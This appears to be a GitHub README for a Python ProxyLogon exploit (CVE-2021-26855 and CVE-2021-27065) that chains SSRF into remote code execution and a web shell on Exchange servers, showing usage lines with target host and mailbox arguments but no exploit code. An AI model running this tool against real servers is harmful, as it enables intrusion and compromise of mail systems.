 # ProxyLogon For Python3
ProxyLogon(CVE-2021-26855+CVE-2021-27065) Exchange Server RCE(SSRF->GetWebShell)
```python
usage:
    python ProxyLogon.py --host=exchange.com --mail=admin@exchange.com
    python ProxyLogon.py --host=exchange.com --mails=./mails.txt
args:
    --host: target's address.
    --mail: exists user's mail.
    --mails: mails file.
```

![](https://github.com/p0wershe11/ProxyLogon/blob/main/gif.gif)

